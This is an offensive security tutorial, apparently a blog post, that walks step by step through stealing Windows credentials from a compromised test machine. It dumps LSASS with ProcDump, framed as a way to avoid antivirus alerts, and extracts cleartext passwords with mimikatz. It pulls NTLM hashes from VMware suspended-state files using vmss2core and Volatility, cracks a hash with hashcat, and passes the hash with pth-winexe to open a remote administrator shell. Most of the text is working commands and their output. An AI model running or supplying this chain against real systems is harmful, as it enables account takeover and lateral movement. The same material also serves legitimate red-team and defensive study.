

I'll Get Your Credentials ... Later!
We all love grabbing credentials from Window machines that we have compromised, wether they are in clear-text or hashes. Sometimes, however, it is not possible to get those credentials immediately if at all. In this tutorial I want to briefly show two cases where you can dump memory to disk (exfiltrate it) and extract the credentials at a later time. I will demonstrate these test cases on a 32-bit Windows 7 VM that I use for testing purposes, these techniques should however apply to a wide variety of Windows builds.
Links:
ProcDump // Windows Sysinternals - here
Mimikatz // Blog de Gentil Kiwi - here
The Volatility Foundation // Homepage - here
Vmss2core // VMWare Labs - here
VMware Snapshot and Saved State Analysis // Volatility Labs - here
Dumping LSASS To Disk
Normally after you compromise a Windows machine dumping hashes/credentials is relatively straight forward, there are many tools and techniques at your disposal which can perform this task. You can use meterpreter's built in hashdump or you can reflectively load mimikatz / Windows Credential Editor (WCE) into memory (using metasploit & poweshell). Still, sometimes, you are in a situation where these techniques are not viable. In these cases it may still be possible to extract those precious credentials. For our first test case we will use Microsoft Sysinternals ProcDump to dump the LSASS process memory to disk.
There are a few advantages to doing this: (1) with ProcDump we don't need to worry about triggering any AV alarm bells, (2) since ProcDump is part of Sysinternals it is a Microsoft signed binary, (3) it is small and easy to transfer to our target machine.
# Don't forget to use "-accepteula" to avoid any pesky popups. If run on a 64-bit OS you have to add the "-64" flag to the command below. C:\Users\Fubar\Desktop\Sysinternals> procdump.exe -accepteula -ma lsass.exe lsass.dmp ProcDump v7.1 - Writes process dump files Copyright (C) 2009-2014 Mark Russinovich Sysinternals - www.sysinternals.com With contributions from Andrew Richards [23:42:36] Dump 1 initiated: C:\Users\Fubar\Desktop\Sysinternals\lsass.dmp [23:42:37] Dump 1 writing: Estimated dump file size is 28 MB. [23:42:38] Dump 1 complete: 28 MB written in 1.5 seconds [23:42:38] Dump count reached.
After the dump has been created we can remove the ProcDump executable and exfiltrate the LSASS minidump to our local machine. Once we have the minidump on our local machine we can run mimikatz and extract the credentials. For this to work, we need to make sure that we run mimikatz (locally) on the same architecture as the target machine. Benjamin Delpy has created a useful chart to show compatibility between the target and the local host.

C:\Users\Fubar\Desktop\Mimikatz\x32> mimikatz.exe .#####. mimikatz 2.0 alpha (x86) release "Kiwi en C" (Sep 1 2014 01:09:47) .## ^ ##. ## / \ ## /* * * ## \ / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) '## v ##' http://blog.gentilkiwi.com/mimikatz (oe.eo) '#####' with 14 modules * * */ mimikatz# sekurlsa::minidump C:\Users\Fubar\Desktop\lsass.dmp Switch to MINIDUMP : 'C:\Users\Fubar\Desktop\lsass.dmp' mimikatz# sekurlsa::tspkg Authentication Id : 0 ; 1243450 (00000000:0012f93a) Session : Interactive from 0 User Name : user1 Domain : Win7-Testbed SID : S-1-5-21-2436999474-2994553960-2820488997-1003 tspkg : * Username : user1 * Domain : Win7-Testbed * Password : imsosecurew00tw00t666#@ Authentication Id : 0 ; 291143 (00000000:00047147) Session : Interactive from 1 User Name : Fubar Domain : Win7-Testbed SID : S-1-5-21-2436999474-2994553960-2820488997-1001 tspkg : * Username : Fubar * Domain : Win7-Testbed * Password : password123! Authentication Id : 0 ; 997 (00000000:000003e5) Session : Service from 0 User Name : LOCAL SERVICE Domain : NT AUTHORITY SID : S-1-5-19 tspkg : Authentication Id : 0 ; 996 (00000000:000003e4) Session : Service from 0 User Name : WIN7-TESTBED$ Domain : WORKGROUP SID : S-1-5-20 tspkg :
As we can see we were able to recover the clear-text credentials for both the "Fubar" (Administrator) and "user1" accounts. Keep in mind that you can only recover credentials for users who have an active session on the target. For demonstration purposes I launched a command line as "user1" (/runas user:user1 cmd).
Virtual Machine Snapshots And Suspended States
For our second test case we will be targeting Virtual Machines. After compromising a target we discover that the box hosts Virtual Machines. Wouldn't it be nice if we could compromise those machines as well! Enter vmss2core, we can use this tool to create a coredump of a Virtual Machine, IF that machine has suspended (*.vmss) or snapshot (*.vmsn) checkpoint state files. These files can be parsed by the volatility framework to extract a hashdump.
Make sure to use the appropriate version of vmss2core, in this case I needed the 64-bit OSX version.
# We are working with a suspended state so we need to combine *.vmss and *.vmem. If we were dealing with a snapshot we would need to combine *.vmsn and *.vmem. Avalon:Tools b33f$ ./vmss2core_mac64 -W /Users/b33f/Documents/VMware/VMs/Win7-Testbed/Windows\ 7.vmwarevm/Windows\ 7-e7a44fca.vmss /Users/b33f/Documents/VMware/VMs/Win7-Testbed/Windows\ 7.vmwarevm/Windows\ 7-e7a44fca.vmem vmss2core version 3157536 Copyright (C) 1998-2013 VMware, Inc. All rights reserved. Win32: found DDB at PA 0x2930c28 Win32: MmPfnDatabase=0x82970700 Win32: PsLoadedModuleList=0x82950850 Win32: PsActiveProcessHead=0x82948f18 Win32: KiBugcheckData=0x82968a40 Win32: KernBase=0x82806000 Win32: NtBuildLab=0x82850fa8 Win: ntBuildLab=7601.17514.x86fre.win7sp1_rtm.101119-1850 # Win7 SP1 x86 CoreDumpScanWin32: MinorVersion set to 7601 ... 10 MBs written. ... 20 MBs written. ... 30 MBs written. ... 40 MBs written. ... 50 MBs written. [...Snip...] Finished writing core.
After transferring the coredump back out we can let volatility do it's magic. We need to determine which OS the dump comes from for volatility to parse it correctly.
# We can see that volatility is unable to accurately determine the OS profile, however from the vmss2core output above we can see that the correct profile is "Win7SP1x86". root@Josjikawa:~/Tools/volatility# ./vol.py imageinfo -f ../../Desktop/memory.dmp Determining profile based on KDBG search... Suggested Profile(s) : Win7SP0x86, Win7SP1x86 (Instantiated with WinXPSP2x86) AS Layer1 : IA32PagedMemoryPae (Kernel AS) AS Layer2 : WindowsCrashDumpSpace32 (Unnamed AS) AS Layer3 : FileAddressSpace (/root/Desktop/memory.dmp) PAE type : PAE DTB : 0x185000L KUSER_SHARED_DATA : 0xffdf0000L Image date and time : 2014-09-13 19:15:04 UTC+0000 Image local date and time : 2014-09-13 21:15:04 +0200
Using the "hivelist" plugin we can now get the memory offsets for the various registry hives.
root@Josjikawa:~/Tools/volatility# ./vol.py hivelist -f ../../Desktop/memory.dmp --profile=Win7SP1x86 Volatility Foundation Volatility Framework 2.4 Virtual Physical Name ---------- ---------- ---- 0x988349c8 0x3945a9c8 \??\C:\Users\Fubar\AppData\Local\Microsoft\Windows\UsrClass.dat 0x87a0c008 0x27f9f008 [no name] 0x87a1c008 0x280ed008 \REGISTRY\MACHINE\SYSTEM # SYSTEM 0x87a3a6b0 0x27d4b6b0 \REGISTRY\MACHINE\HARDWARE 0x87abe5c0 0x2802a5c0 \SystemRoot\System32\Config\DEFAULT 0x880b5008 0x231b7008 \SystemRoot\System32\Config\SECURITY 0x88164518 0x231cc518 \SystemRoot\System32\Config\SAM # SAM 0x8bd019c8 0x24aec9c8 \Device\HarddiskVolume1\Boot\BCD 0x8bdd2008 0x24772008 \SystemRoot\System32\Config\SOFTWARE 0x8f5549c8 0x1f39e9c8 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT 0x90e83008 0x1f09f008 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT 0x955a9450 0x15468450 \??\C:\System Volume Information\Syscache.hve 0x988069c8 0x3aa329c8 \??\C:\Users\Fubar\ntuser.dat
All that remains now is to dump the hashes. To do this we need to pass volatility's "hashdump" module the virtual memory offsets to the SYSTEM and SAM hives, which we have.
root@Josjikawa:~/Tools/volatility# ./vol.py hashdump -f ../../Desktop/memory.dmp --profile=Win7SP1x86 sys-offset=0x87a1c008 sam-offset=0x88164518 Volatility Foundation Volatility Framework 2.4 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca::: user1:1003:aad3b435b51404eeaad3b435b51404ee:7d65996108fccae892d38134a2310a4e:::
These Virtual Machine coredumps can be very large (1 GB+). If transferring them over the network is not an option you can always drop a copy of volatility on the target machine. Starting from version 2.4, volatility has binary packages for Windows, Linux and OSX.
# Binary package on OSX 10.9.4 Avalon:Volatility-2.4 b33f$ ./volatility_2.4_x64 hashdump -f ../memory.dmp --profile=Win7SP1x86 sys-offset=0x87a1c008 sam-offset=0x88164518 Volatility Foundation Volatility Framework 2.4 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca::: user1:1003:aad3b435b51404eeaad3b435b51404ee:7d65996108fccae892d38134a2310a4e:::
Credentials, What Now?
Once we have extracted the credentials there are all sorts of things we can do with them, especially if we got clear-text passwords. For completion, however, I want to briefly mention the two most common things we will want to do if we get hashes from our target machine.
If the passwords have a low level of complexity we can attempt to brute-force them. Personally I prefer to us hashcat, as it also support GPU cracking when the occasion arrises.
# Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca::: root@Josjikawa:~/Desktop# echo 8119935c5f7fa5f57135620c8073aaca > hash.out root@Josjikawa:~/Desktop# hashcat -m 1000 hash.out /usr/share/wordlists/rockyou.txt Initializing hashcat v0.47 by atom with 8 threads and 32mb segment-size... Added hashes from file hash.out: 1 (1 salts) Activating quick-digest mode for single-hash NOTE: press enter for status-screen Input.Mode: Dict (/usr/share/wordlists/rockyou.txt) Index.....: 1/5 (segment), 3625424 (words), 33550339 (bytes) Recovered.: 0/1 hashes, 0/1 salts Speed/sec.: 10.94M plains, 10.94M words Progress..: 3625424/3625424 (100.00%) Running...: --:--:--:-- Estimated.: --:--:--:-- 8119935c5f7fa5f57135620c8073aaca:password123! # Password Policy Fail! All hashes have been recovered Input.Mode: Dict (/usr/share/wordlists/rockyou.txt) Index.....: 2/5 (segment), 3350458 (words), 33550340 (bytes) Recovered.: 1/1 hashes, 1/1 salts Speed/sec.: - plains, 10.38M words Progress..: 2976595/3350458 (88.84%) Running...: 00:00:00:01 Estimated.: --:--:--:-- Started: Sat Sep 13 17:13:31 2014 Stopped: Sat Sep 13 17:13:31 2014
The other go-to option is to replay the gathered hashes to get access to the target host. Again there are a lot of options at our disposal; metasploit's psexec module comes to mind but equally important is WCE which allows you to spawn a shell locally and associate a compromised hash with it (= Awesome, well worth a tutorial on it's own!). For demonstration purposes we can quickly spawn a basic command line shell using pth-winexe.
root@Josjikawa:~/Desktop# pth-winexe -U Fubar%aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca //192.168.187.135 cmd E_md4hash wrapper called. HASH PASS: Substituting user supplied NTLM HASH... Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation. All rights reserved. C:\Windows\system32> whoami whoami win7-testbed\fubar C:\Windows\system32> net user fubar net user fubar User name Fubar Full Name Comment User's comment Country code 000 (System Default) Account active Yes Account expires Never Password last set 9/13/2014 10:53:52 PM Password expires Never Password changeable 9/13/2014 10:53:52 PM Password required No User may change password Yes Workstations allowed All Logon script User profile Home directory Last logon 9/13/2014 10:56:21 PM Logon hours allowed All Local Group Memberships *Administrators *HomeUsers Global Group memberships *None The command completed successfully.